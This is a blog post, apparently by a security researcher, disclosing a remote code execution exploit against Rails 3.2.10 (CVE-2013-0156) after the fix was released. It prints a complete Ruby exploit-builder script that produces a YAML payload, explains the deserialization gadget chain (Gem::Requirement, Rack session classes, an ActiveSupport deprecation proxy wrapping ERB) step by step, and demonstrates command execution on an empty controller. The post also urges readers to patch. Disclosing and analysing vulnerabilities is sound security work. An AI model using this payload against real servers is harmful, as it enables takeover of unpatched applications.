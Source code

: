 # Rails 3.2.10 Remote Code Execution

I was originally going to wait for a week after 3.2.11 was released fixing [CVE-2013-0156](https://groups.google.com/group/rubyonrails-security/browse_thread/thread/eb56e482f9d21934), but since the cat is already out of the bag and there's now a Metasploit module for this vulnerability, I guess it's ok to discuss how it works.

Reminder: If you *haven't* upgraded your app yet, **take it down *now***. Your app **will** get pwned if you don't.

So without further ado, here's the proof of concept I cooked up in collaboration with [espes](https://github.com/espes) and [chendo](http://twitter.com/chendo). It's a bit more complex than the other ones floating around, but it has the advantage of being self-executing.

    \ruby
    require "base64"
    require "erb"
     
    if ARGV.empty?
      puts "Usage: exploit_builder.rb <source_file>"
      exit!
    end
     
    class ActiveSupport
      class Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method)
            @instance = instance
            @method = method
          end
        end
      end
    end
     
    erb = ERB.allocate
    erb.instance_variable_set :@src, File.read(ARGV.first)
     
    depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
     
    payload = Base64.encode64(Marshal.dump(depr)).gsub("\n", "")
     
    puts <<-PAYLOAD.strip.gsub("\n", "&#10;")
    <id type="yaml">
    ---
    !ruby/object:Gem::Requirement
    requirements:
      - !ruby/object:Rack::Session::Abstract::SessionHash
          env:
            HTTP_COOKIE: "a=#{payload}"
          by: !ruby/object:Rack::Session::Cookie
            coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
            key: a
            secrets: []
          exists: true
    </id>
    PAYLOAD

(note: I encourage you to refer back to the YAML as you follow the explanation)

We reached straight for ERB as our weapon of choice in executing our code. The problem with ERB is that it only evals the string in its `@src` attribute when either the `result` or `run` method is called. There's not much code out there that calls either of these methods on an object in `param`, so we needed to figure out a way to make sure one of these methods is called.

I came across a curious class in ActiveSupport called [`ActiveSupport::Deprecation::InstanceVariableProxy`](https://github.com/rails/rails/blob/e618adbcabe59eaccfab1f721eb3cf1e915e012e/activesupport/lib/active_support/deprecation/proxy_wrappers.rb#L78-94). While it doesn't appear to be used anywhere anymore (I believe it was used during the transition from `@params` to `params` in controllers), it still sticks around to this day.

One of the more interesting features of this class is how it handles `method_missing`. The definition of `method_missing` is in the superclass, `ActiveSupport::Deprecation::DeprecationProxy`, and it looks like this:

    \ruby
    def method_missing(called, *args, &block)
      warn caller, called, args
      target.__send__(called, *args, &block)
    end

The `target` method it calls is defined in `InstanceVariableProxy` itself, and looks like this:

    \ruby
    def target
      @instance.__send__(@method)
    end

Uh oh. This means if we can force an instance of this class into `params` and set `@instance` to an ERB object with the code of our choosing and `@method` to `"result"`, we can get remote code execution! Simple enough right, maybe something like this?

    \yaml
    --- !ruby/object:ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy
      method: result
      instance: !ruby/object:ERB
        src: "puts 'pwned'; puts `uname -a`; exit!"

Unfortunately, actually getting Rails to deserialize this YAML was the hard part. As a proxy class, `DeprecationProxy` undefines all but a few of its instance methods. This means that when Psych tries to do anything with the newly allocated instance of `DeprecatedInstanceVariableProxy`, it blows up in our faces.

We did however find that we could `Marshal.dump` and `Marshal.load` these two objects as much as we liked. Since `Marshal` is written in C, it uses Ruby's C API directly and is able to deserialize properly even without the right methods on the object it's trying to deserialize.

This is the part where espes went away for a while to hunt for an alternate way to load this object up. When he came back a little while later, he had made the most awesome discovery.

If you take a look at [`Rack::Session::Abstract::SessionHash`](https://github.com/rack/rack/blob/63b5adf0d95e6d3f0f549ec87e9afbc21e934d3c/lib/rack/session/abstract/id.rb#L23), you'll notice it implements a few collection-like methods such as `[]`, `[]=`, `has_key?` and friends. Whenever any of these methods is called, it calls `load_for_read!` on itself. `load_for_read!` looks like this:

    \ruby
    def load_for_read!
      load! if !loaded? && exists?
    end

The `exists?` check is the reason the `@exists` ivar needs to be manually set to `true` in the YAML. We don't worry about setting `@loaded` to anything as uninitialized instance variables default to `nil`.

Once these conditions are satisified, `load!` is called, which looks like this:

    \ruby
    def load!
      @id, session = @by.send(:load_session, @env)
      @data = stringify_keys(session)
      @loaded = true
    end

In this case, we only care about the first line. By the time execution gets to the second, we will have already run any code we need to run. This method uses the object in `@by` to load the session from the passed env hash. The key thing is that we can control both of these instance variables.

We set `@env` to `{"HTTP_COOKIE" => "a=<payload>"}`, where `<payload>` is the marshalled and base64 encoded `DeprecatedInstanceVariableProxy` instance. We also set `@by` to an instance of `Rack::Session::Cookie`. Here's what the `load_session` and method of that class looks like:

    \ruby
    def load_session(env)
      data = unpacked_cookie_data(env)
      data = persistent_session_id!(data)
      [data["session_id"], data]
    end

The first line calls `unpacked_cookie_data` with the env hash we control as the parameter. The implementation of `unpacked_cookie_data` is a little longer, but still pretty straight forward:

    \ruby
    def unpacked_cookie_data(env)
      env["rack.session.unpacked_cookie_data"] ||= begin
        request = Rack::Request.new(env)
        session_data = request.cookies[@key]
        
        if @secrets.size > 0 && session_data
          session_data, digest = session_data.split("--")
          session_data = nil unless digest_match?(session_data, digest)
        end
        
        coder.decode(session_data) || {}
      end
    end

This method unpacks the env hash we pass into a `Rack::Request` object and fetches the value of the cookie named by `@key` (which we set to `"a"`). It then checks that this cookie is signed if `@secrets.size` is greater than zero. Luckily, we can thwart this check by setting `@secrets` to an empty array.

*Finally*, after all that song and dance, our base64'd and marshalled data is decoded by `Rack::Session::Cookie::Base64::Marshal` (this class's implementation is as obvious as you would expect, so I won't bother including it here). As soon as any method is called on the object returned from `unpacked_cookie_data`, `DeprecatedInstanceVariableProxy` will fire off a call to the `result` method on our own 100% attacker controlled ERB object.

Astute readers will notice that although we have found a path from an innocent looking method like `has_key?` or `each` to code execution, we still rely on Rails or the controller to call one of these methods to trigger our attack. This is where `Gem::Requirement` comes in.

Whenever Psych deserializes a Ruby object, it calls the `init_with` method if it exists. We are able to abuse this initialization to trigger our exploit as soon as our payload is deserialized with the help of `Gem::Requirement#init_with`.

This method forwards on to `#yaml_initialize` for backwards compatibility. `#yaml_initialize` does a bit of boring initialize-ish stuff before calling `#fix_syck_default_key_in_requirements`:

    \ruby
    def yaml_initialize(tag, vals) # :nodoc:
      vals.each do |ivar, val|
        instance_variable_set "@#{ivar}", val
      end
      
      Gem.load_yaml
      fix_syck_default_key_in_requirements
    end

This innocent little method is the final link in our chain and lets us achieve automatic remote code execution. Let's take a look at the code:

    \ruby
    def fix_syck_default_key_in_requirements
      Gem.load_yaml
      
      # Fixup the Syck DefaultKey bug
      @requirements.each do |r|
        if r[0].kind_of? Gem::SyckDefaultKey
          r[0] = "="
        end
      end
    end

Bingo! It loops over `@requirements` and calls `#[]` on each element. Since `#[]` is one of the methods that triggers `Rack::Session::Abstract::SessionHash`'s lazy deserialization of our fake session cookie, we can simply set `@requirements` to an array with a single element - our malicious instance of `SessionHash` - to have our own Ruby code execute whenever our YAML is deserialized.

The beauty of triggering an RCE on deserialization is that we don't depend on any of the app's code at all. We don't depend on them passing our object into ActiveRecord or doing any other things that might limit the effectiveness of this exploit.

To show just how dangerously effective this is, here's what happens when I send a payload generated by the exploit builder script to an **empty** controller:

[![owned](http://i.imgur.com/7GUuo.png)](http://i.imgur.com/7GUuo.png)

Enjoy.

(and don't forget to update your apps if you haven't already!)
